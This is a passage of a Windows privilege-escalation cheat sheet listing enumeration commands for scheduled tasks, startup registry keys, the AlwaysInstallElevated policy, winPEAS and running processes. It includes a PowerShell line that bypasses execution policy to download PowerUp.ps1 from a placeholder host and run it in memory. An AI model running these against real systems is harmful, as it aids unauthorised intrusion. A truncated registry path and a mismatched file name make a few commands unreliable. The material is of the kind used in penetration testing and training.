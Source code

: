 ```
schtasks /query /fo LIST
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM

# powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

# File System
dir c:\\windows\\tasks\  
dir c:\\windows\\system32\\tasks\  

# Info on specific task
schtasks /query /v /fo list /tn "\\System Maintenance"
```
## Startup tasks
```
winPEASany.exe quiet applicationsinfo
```
```
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```
## Privileges 
### AlwaysInstallElevated
```
winPEASany.exe quiet windowscreds
```
If 64 bits use:  %SystemRoot%\\Sysnative\\reg.exe:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```
PowerUp:
```
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Get-RegistryAlwaysInstallElevated"
```
## Active process and services
```
winPEASany.exe quiet procesinfo
winPEASany.exe quiet servicesinfo
```
### Find vulnerable process
Get running processes:
```
tasklist /v
Get-Process
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```
